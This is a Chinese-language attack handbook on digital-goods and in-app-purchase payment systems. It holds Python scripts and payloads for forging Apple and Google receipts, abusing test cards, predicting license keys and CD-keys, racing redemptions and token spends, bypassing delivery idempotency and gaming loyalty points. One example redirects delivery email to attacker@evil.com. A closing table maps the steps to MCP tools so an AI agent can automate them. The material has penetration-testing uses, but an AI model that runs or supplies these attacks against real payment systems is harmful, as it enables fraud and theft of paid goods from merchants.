

# Payment Digital Goods & IAP — 虚拟商品/内购攻击手册

> 数字商品 (卡密/积分/代币/license key) 和 IAP (iOS/Android 内购) 的支付验证有独特攻击面。核心：服务端 receipt 验证、凭证生成、库存管理、发货逻辑。

## 0. 数字商品特殊攻击面

```
物理商品                          数字商品
─────────────────────────         ─────────────────────────
库存可追踪实物                    库存 = 数据库行
发货有物流时间                    发货 = API 返回 + DB 写入
退货需要物流                      退货 = 改 DB 状态
每个商品唯一                      每个商品可无限复制 (如果没有幂等)
```

## 1. iOS App Store 收据验证绕过

### 1.1 收据验证流程攻击

```python
# iOS IAP 验证流程:
# App → StoreKit → App Store → receipt → Your Server → verify with Apple → success
# 攻击面:
#   1. 客户端伪造 receipt (越狱/代理)
#   2. 服务端验证逻辑不全
#   3. receipt 重放跨账号
#   4. 沙盒/生产环境混用

def ios_receipt_attacks():
    """iOS receipt 验证攻击"""
    attacks = {
        # === 1. 绕过 Apple 验证 ===
        "skip_verification": {
            "flow": "服务端收到 receipt → 直接信任客户端 → 不调 Apple API"
        },
        "verify_local_only": {
            "flow": "只在本地验证 receipt 格式 → 不查 Apple 服务器"
        },
        "accept_any_status": {
            "flow": "调 Apple verifyReceipt → 不管返回 status 是否 0"
        },
        "sandbox_production_confusion": {
            "flow": "沙盒 receipt → 发到生产服务器 → 验证失败 → 但走了 fallback 逻辑发货?"
        },

        # === 2. receipt 重放 ===
        "receipt_replay": {
            "flow": "A 购买 → 拿到 receipt_data → B 用同一 receipt → 两份权益"
        },
        "receipt_cross_app": {
            "flow": "App-Bundle-ID-X 的 receipt → 用到 App-Bundle-ID-Y"
        },
        "old_receipt_reuse": {
            "flow": "半年前的 receipt → 现在还能用"
        },

        # === 3. receipt 字段伪造 ===
        "fake_receipt_fields": {
            "product_id": "com.app.premium_subscription",
            "quantity": 999,
            "purchase_date_ms": int(time.time() * 1000),
            "expires_date_ms": int((time.time() + 86400 * 365) * 1000),
            "transaction_id": "FAKE_" + str(random.randint(1, 99999)),
            "original_transaction_id": "FAKE_ORIGINAL",
        },

        # === 4. Apple 响应中间人 ===
        # Apple verifyReceipt: POST https://buy.itunes.apple.com/verifyReceipt
        # 如果走 HTTP (不该但可能存在配置错误):
        "mitm_apple_response": {
            "flow": "代理拦截 Apple 响应 → 替换为 {'status': 0, 'receipt': {...}}"
        },
    }
```

### 1.2 服务端验证缺失检测

```python
def check_apple_verification():
    """检测服务端是否真正验证了 Apple receipt"""
    # 发送格式正确但内容完全虚构的 receipt
    fake_receipt = base64.b64encode(json.dumps({
        "receipt_type": "ProductionSandbox",
        "adam_id": 0,
        "app_item_id": 0,
        "bundle_id": "com.fake.app",
        "application_version": "1.0",
        "download_id": 0,
        "version_external_identifier": 0,
        "receipt_creation_date": "2024-01-01T00:00:00Z",
        "receipt_creation_date_ms": "0",
        "in_app": [{
            "quantity": "999",
            "product_id": "com.fake.premium_forever",
            "transaction_id": "999999999999",
            "original_transaction_id": "999999999999",
            "purchase_date": "2099-12-31T23:59:59Z",
            "purchase_date_ms": "9999999999999",
            "expires_date": "2099-12-31T23:59:59Z",
            "is_trial_period": "false",
            "original_purchase_date": "2099-12-31T23:59:59Z",
        }]
    }).encode()).decode()

    r = S.post(BASE + "/api/iap/verify", json={
        "receipt_data": fake_receipt,
        "product_id": "com.fake.premium_forever",
    })
    if r.status_code == 200 and "error" not in r.text.lower():
        print("[!] APPLE VERIFICATION BYPASSED! Fake receipt accepted!")
        print(f"    Response: {r.text[:300]}")
```

## 2. Google Play Billing 攻击

### 2.1 Play Store 验证绕过

```python
# Google Play Billing v5/v6:
# purchaseToken → GET https://androidpublisher.googleapis.com/...
# 攻击面类似 Apple:

def google_play_attacks():
    """Google Play 内购攻击"""
    attacks = {
        # 1. purchaseToken 伪造
        "fake_token": {
            "purchaseToken": "fake." + base64.b64encode(json.dumps({
                "orderId": "GPA.1234-5678-9012-34567",
                "packageName": "com.target.app",
                "productId": "premium_monthly",
                "purchaseTime": int(time.time() * 1000),
                "purchaseState": 0,  # 已完成
                "purchaseToken": "...",
            }).encode()).decode()
        },

        # 2. purchaseState 信任
        "trust_client_state": {
            "flow": "客户端传 purchaseState=0 → 服务端直接信任"
        },

        # 3. 未验证签名
        "no_signature_verification": {
            "flow": "只解码 purchaseToken → 不调 Google API 验证"
        },

        # 4. UUID 可预测的 orderId
        "predictable_order_id": {
            "flow": "GPA.0000-0000-0000-00001 → GPA.0000-0000-0000-00002"
        },

        # 5. Acknowledge/Purchase 竞态
        "acknowledge_race": {
            "flow": "购买 → 发货 → 3 天内 refund → Google 自动退款 → 但货已发"
        },

        # 6. SubscriptionV2 漏洞
        "subscription_v2": {
            "flow": "basePlanId 和 offerId 可被替换 → 低价 offer 买高价 plan"
        },
    }
```

### 2.2 测试卡/测试环境攻击

```python
# Google Play 测试卡:
# 这些卡号在所有 Google Play 开发者账号中都可以添加为测试卡
# 如果生产环境没有禁用测试卡验证:
GOOGLE_TEST_CARDS = [
    # Visa
    "4111111111111111",
    # Mastercard
    "5555555555554444",
    # Amex
    "378282246310005",
    # Discover
    "6011111111111117",
    # 测试卡 (Google 文档)
    "4111111111111111",  # 总是批准
    "4444333322221111",  # 总是批准
]

# 如果生产环境接受测试卡的 purchaseToken:
# → 用测试卡 0 元 → purchaseToken → 真实发货
```

## 3. Steam / Epic / 第三方平台支付验证

### 3.1 Steam 微交易验证

```python
# Steamworks Web API:
# POST https://partner.steam-api.com/ISteamMicroTxn/InitTxn/v3/
# POST https://partner.steam-api.com/ISteamMicroTxn/FinalizeTxn/v3/
# 如果 order_id 可预测/可复用:

def steam_microtxn_attacks():
    """Steam 微交易攻击"""
    attacks = {
        # InitTxn then never Finalize → 重复 InitTxn
        "init_without_finalize": {
            "flow": "InitTxn → 拿 txn_id → 不 Finalize → "
                    "InitTxn again → 多个待处理交易"
        },

        # order_id 碰撞
        "order_id_collision": {
            "flow": "用他人已支付的 order_id → InitTxn → 可能成功?"
        },

        # item_id 操纵
        "item_id_swap": {
            "flow": "$0.01 item 的 item_id → 换成 $100 item"
        },
    }
```

### 3.2 通用第三方验证缺陷

```python
# 大多数 "平台币" 系统:
# 平台币 → 游戏币 → 道具
# 两层转换都是攻击面:

def platform_currency_attacks():
    """平台币/游戏币攻击"""
    attacks = {
        # 1. 兑换精度攻击
        "exchange_precision": {
            "flow": "1 USD = 100 diamonds → 0.01 USD = 1 diamond → "
                    "充 0.001 USD → 四舍五入 → 0 或 1 diamond?"
        },

        # 2. 逆向兑换
        "reverse_exchange": {
            "flow": "diamonds → USD → 汇率漏洞 → 套利"
        },

        # 3. 跨平台兑换
        "cross_platform": {
            "flow": "iOS 充 → Android 退 → 汇率/税率差异"
        },

        # 4. 赠送/交易系统
        "gift_system": {
            "flow": "低价区买 → 赠送给高价区 → 套利"
        },

        # 5. 道具生成/消费竞态
        "item_consume_race": {
            "flow": "并发使用同一道具 → 消耗多次但道具只扣一次"
        },
    }
```

## 4. License Key / 激活码生成攻击

### 4.1 算法逆向与预测

```python
# License Key 常见格式:
# XXXXX-XXXXX-XXXXX-XXXXX
# 5x5 字母数字

def license_key_attacks():
    """激活码攻击"""
    samples = []  # 收集有效 key 样本

    analysis = {
        # 1. 频率分析
        "frequency": "统计每个位置的字符频率 → 如果是随机则均匀",
        # 2. 间隔分析
        "interval": "相邻 key 之间的数学关系",
        # 3. 校验和
        "checksum": "key 的最后几位是否是校验 → Luhn/CRC/MD5 trunc",
        # 4. 时间因子
        "time_factor": "key 是否包含时间戳 → base32 解码看",
        # 5. 序列号
        "sequential": "递增序列 → predict next",
    }

    # 已知算法示例:
    # key = base32( user_id + product_id + timestamp + checksum )
    # → 替换 user_id → 生成别人的 key

    # 激活验证绕过:
    bypasses = [
        {"key": "", "expected": "空 key → 系统 bug 或 default"},
        {"key": "00000-00000-00000-00000-00000"},
        {"key": "XXXXX-XXXXX-XXXXX-XXXXX-XXXXX"},
        {"key": "ADMIN-ADMIN-ADMIN-ADMIN-ADMIN"},
        {"key": "11111-11111-11111-11111-11111"},
        {"key": "FREE-FREE-FREE-FREE-FREE"},
        {"key": "VALID_KEY_1" + "\x00", "note": "null byte truncation"},
        {"key": "\x00" * 29},
    ]
```

### 4.2 在线激活系统攻击

```python
def online_activation_attacks():
    """在线激活/验证攻击"""
    attacks = {
        # 1. 激活次数限制绕过
        "activation_limit_bypass": {
            "flow": "一码一机 → 修改 hardware_id → 多次激活"
        },

        # 2. 离线激活
        "offline_activation": {
            "flow": "激活请求 → 拦截 → 返回成功响应 → 离线验证通过"
        },

        # 3. 时间回拨
        "time_rollback": {
            "flow": "30 天试用 → 回拨系统时间 → 永不过期"
        },

        # 4. 硬件指纹欺骗
        "hwid_spoof": {
            "flow": "VM 克隆 MAC/HDD serial → 复用激活"
        },

        # 5. 激活服务器 SSRF
        "activation_server_ssrf": {
            "flow": "如果激活服务器 URL 可配 → SSRF 到内网"
        },
    }
```

## 5. 卡密/兑换码系统

### 5.1 卡密生成与校验攻击

```python
# 卡密系统:
# 管理员批量生成 → 存储到 DB → 用户输入兑换

def cdkey_attacks():
    """卡密/CDKey 系统攻击"""
    attacks = {
        # === 生成阶段 ===
        "batch_predict": {
            "flow": "拿到一批卡密 → 分析生成规律 → 预测未发放的卡密"
        },
        "batch_generation_idor": {
            "flow": "如果 API 可以触发批量生成: POST /admin/cdkey/generate/batch/100"
        },
        "seed_attack": {
            "flow": "如果卡密用 PRNG 生成 → 知道种子 → 复现全部卡密"
        },

        # === 存储阶段 ===
        "db_dump_leak": {
            "flow": "卡密表被 SQLi/备份文件/API 泄露"
        },
        "api_enumeration": {
            "flow": "GET /api/cdkey/{id} → 遍历所有卡密"
        },

        # === 兑换阶段 ===
        "brute_force": {
            "flow": "6 位数字卡密 → 10^6 → 可爆 (如果无 rate limit)"
        },
        "race_redeem": {
            "flow": "同一卡密并发兑换 → 多次成功"
        },
        "case_insensitive": {
            "flow": "ABC-123 和 abc-123 被认为是两个不同的卡密?"
        },
        "whitespace_normalization": {
            "flow": "ABC-DEF 和 ABCDEF 和 ABC DEF → 不同处理"
        },

        # === 核销阶段 ===
        "double_consume": {
            "flow": "卡密已使用 → 但可通过 API 再次使用"
        },
        "partial_redeem": {
            "flow": "卡密包含 5 个道具 → 只领了 3 个 → 剩余 2 个可用?"
        },
        "wrong_type_redeem": {
            "flow": "道具卡密用在 VIP 兑换接口 → VIP 卡密用在道具接口"
        },
    }
```

### 5.2 卡密兑换完整攻击脚本

```python
# cdkey_full_audit.py
def cdkey_audit():
    # 1. 获取一张有效卡密
    # 2. 尝试并发兑换
    # 3. 尝试用不同账号兑换
    # 4. 尝试修改兑换参数

    key = "ABCD-EFGH-IJKL-MNOP"

    # 并发兑换
    with concurrent.futures.ThreadPoolExecutor(max_workers=30) as ex:
        futs = [ex.submit(lambda: S.post(BASE + "/api/redeem",
            json={"code": key})) for _ in range(50)]
        results = [f.result() for f in futs]
        successes = sum(1 for r in results if r.status_code == 200)
        if successes > 1:
            print(f"[!] CDKEY RACE: {successes} successes!")

    # 大小写变异
    variants = [
        key.lower(), key.upper(), key.replace("-", ""),
        key.replace("-", " "), key + " ", " " + key,
        key.replace("0", "O"), key.replace("1", "I"),
        key.replace("5", "S"), key.replace("8", "B"),
    ]
    for v in variants:
        r = S.post(BASE + "/api/redeem", json={"code": v})
        if r.status_code == 200:
            print(f"[!] Variant accepted: {v}")
```

## 6. 虚拟货币/代币系统

### 6.1 铸币攻击

```python
# 虚拟货币系统的致命漏洞: 非预期铸币
def token_minting_attacks():
    """虚拟币铸币攻击"""
    attacks = {
        # === 铸币途径 ===
        # 1. 充值回调重复处理 → 多次铸币
        "recharge_replay": "充值一次 → 回调 10 次 → 铸币 10 次",

        # 2. 退款不回滚代币
        "refund_no_burn": "充值 $100 → 获得 10000 coin → 退款 → coin 不扣",

        # 3. 转账给自己
        "self_transfer": "A 转 B → 创建两条记录 → 如果处理不当 → 双倍",

        # 4. 负转账
        "negative_transfer": "A 转 B -100 → A 余额 -100 + (-(-100)) = 0, B 余额 +100",

        # 5. 小数精度铸币
        "precision_mint": "每次转 0.0000001 → 不扣余额 → 累计",

        # 6. 系统账户/黑洞地址
        "system_account": "系统账户余额初始为 0 → 可以负数透支?",

        # 7. 合约调用 (如果是链上代币)
        "contract_call": "mint() 没有 onlyOwner → 任意铸币",
    }
```

### 6.2 消费竞态

```python
# 虚拟币消费的经典竞态:
# 余额 100 → 并发消费 100 × 2 → 两个都成功

def token_spend_race():
    """代币消费竞态"""
    # 如果余额检查不是原子操作:
    # Thread 1: 读余额 = 100
    # Thread 2: 读余额 = 100
    # Thread 1: 扣 100 → 余额 = 0
    # Thread 2: 扣 100 → 余额 = -100

    # 或:
    # 无事务: UPDATE SET balance = balance - 100 WHERE id = X
    # → 两个 UPDATE 都执行 → 余额 = -100

    # 用 Redis 的话:
    # GET balance → 100
    # 两个线程都 GET 到 100
    # DECRBY 两次 → -100

    def double_spend(order_id):
        with concurrent.futures.ThreadPoolExecutor(max_workers=5) as ex:
            return list(ex.map(
                lambda _: S.post(BASE + f"/api/pay-with-tokens",
                    json={"order_id": order_id}),
                range(5)
            ))
```

## 7. 跨平台支付验证差异

### 7.1 平台差异矩阵

```python
# 同一商品在 iOS/Android/Web 价格不同
# 利用平台间验证差异:
PLATFORM_DIFF_MATRIX = {
    "iOS": {
        "price": "$9.99",
        "receipt_validation": "Apple verifyReceipt (服务端)",
        "sandbox_url": "https://sandbox.itunes.apple.com/verifyReceipt",
        "weakness": "沙盒 receipt 可能在生产环境通过"
    },
    "Android": {
        "price": "$9.99",
        "receipt_validation": "Google Play Developer API",
        "weakness": "purchaseToken 可被客户端伪造"
    },
    "Web": {
        "price": "$7.99",   # ↓ 通常比移动端便宜
        "weakness": "直接调后端 API → 可能绕过平台验证"
    },
}

# 攻击: 在 Web 端 $7.99 购买 → 但后端按 iOS receipt 验证?
# 或者: Android 支付 → 伪造 iOS receipt → 两边都发货
```

## 8. 数字商品发货逻辑漏洞

### 8.1 发货幂等绕过

```python
# 数字商品发货是不可逆的:
# 一旦返回 license_key/cdkey/download_link → 用户永久持有

def delivery_idempotency_bypass():
    """发货幂等绕过"""
    attacks = {
        # 1. 同一订单多次请求发货 API
        "multi_deliver": {
            "flow": "POST /order/deliver → 拿 key → POST again → 又拿一个 key"
        },

        # 2. 修改 delivery 请求参数
        "param_tamper": {
            "flow": "order_id=1 发货 → order_id=2 → 拿订单 2 的货"
        },

        # 3. 发货状态时间窗口
        "delivery_window": {
            "flow": "发货处理中 (status=processing) → 并发请求发货 → 两次成功"
        },

        # 4. 发货失败重试
        "delivery_retry": {
            "flow": "第一次返回 500 → 实际已发货 → 重试 → 再次发货"
        },

        # 5. 退款后重新发货
        "refund_redeliver": {
            "flow": "购买 → 拿 key → 退款 → POST deliver again → 新 key"
        },
    }
```

### 8.2 下载链接/数字资产保护绕过

```python
# 数字商品常见交付方式:
# - 一次性下载链接
# - License Key 显示
# - API key / token 生成
# - 账号/密码 自动生成

def digital_delivery_attacks():
    """数字交付攻击"""
    attacks = {
        # 签名 URL
        "signed_url": {
            "attack": "修改 URL 中的文件路径 → 下载别人的文件",
            "example": "https://cdn.x.com/dl/ORDER_1/file.zip?expires=...&sign=..."
                       "→ 改成 ORDER_2 → 如果 sign 不绑 order_id"
        },

        # 无签名 URL
        "unsigned_url": {
            "attack": "直接枚举下载链接",
            "example": "https://cdn.x.com/downloads/00001.zip → 00002.zip"
        },

        # License Key 展示页
        "license_page": {
            "attack": "修改 order_id in URL → 看别人的 key",
            "example": "/order/1/license → /order/2/license"
        },

        # 邮件发送
        "email_delivery": {
            "attack": "修改 delivery email → 发给攻击者",
            "example": "PUT /order/1 {\"delivery_email\": \"attacker@evil.com\"}"
        },
    }
```

## 9. 积分/忠诚度系统攻击

```python
# 积分/里程/奖励点:
# 赚取 + 消费 两个方向都有攻击面

def loyalty_points_attacks():
    """积分系统攻击"""
    attacks = {
        # === 赚取 (earn) ===
        "earn_multiplier": {
            "flow": "购买时修改 points_multiplier → 100x"
        },
        "earn_event_injection": {
            "flow": "直接 POST /api/points/earn → 绕过购买流程"
        },
        "earn_negative_spend": {
            "flow": "退货 -$100 → points 计算: abs(-100) * 1 = +100 points"
        },
        "referral_abuse": {
            "flow": "自引用 → 循环注册 → 刷推荐积分"
        },
        "birthday_abuse": {
            "flow": "每天都是生日 → 每天领生日积分"
        },

        # === 消费 (burn) ===
        "burn_race": {
            "flow": "并发消费积点 → 余额不足但操作成功"
        },
        "burn_return": {
            "flow": "积分兑换 → 退货 → 积分退还 → 但兑换物保留"
        },
        "burn_transfer": {
            "flow": "积分转给 B → 用 A 的积分也消费"
        },
        "cross_program_burn": {
            "flow": "航空公司积分 → 在酒店用 → 兑换率漏洞"
        },

        # === 过期 ===
        "expiry_reactivate": {
            "flow": "积分过期 → 任何积分变动 (如: 转让 1 积分) → 过期积分恢复"
        },
    }
```

## 10. 统一攻击链



## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 数字商品 API 探测 | `http_probe` | HTTP GET 探测数字商品/兑换端点 |
| 知识检索 | `kb_router` | 按数字商品攻击信号搜索知识库 |